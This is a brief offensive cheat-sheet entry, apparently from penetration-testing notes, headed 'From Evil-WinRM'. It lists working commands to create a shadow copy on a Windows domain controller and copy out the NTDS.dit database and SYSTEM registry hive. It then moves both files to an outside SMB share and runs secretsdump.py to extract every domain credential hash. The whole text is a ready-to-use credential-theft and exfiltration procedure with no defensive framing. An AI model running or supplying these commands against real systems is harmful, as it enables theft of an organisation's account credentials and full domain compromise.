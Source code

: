 From Evil-WinRM

```bash
vssadmin CREATE SHADOW /For=C:

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\windows\tasks\system.save

move NTDS.dit \\x.x.x.x\share
move system.save \\x.x.x.x\share
```

On local attacking system:

```bash
secretsdump.py -ntds NTDS.dit -system system.save LOCAL
```

